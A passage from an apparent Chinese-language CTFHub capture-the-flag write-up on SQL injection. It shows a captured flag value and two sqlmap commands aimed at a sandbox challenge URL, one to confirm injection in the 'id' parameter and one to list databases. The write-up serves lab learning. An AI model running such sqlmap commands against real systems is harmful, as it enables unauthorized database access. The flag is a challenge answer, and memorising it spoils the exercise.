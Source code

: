 ![Alt text](image-115.png)
![Alt text](image-116.png)
![Alt text](image-117.png)   
成功获取到 `flag`为 `ctfhub{368ab6896a60043f43bced61}`。   
### 4.3 `sqlmap` 注入
判断是否存在注入点
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1"
```   
![Alt text](image-107.png)   
`id`参数存在注入漏洞。接下来获取数据库：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" --dbs
```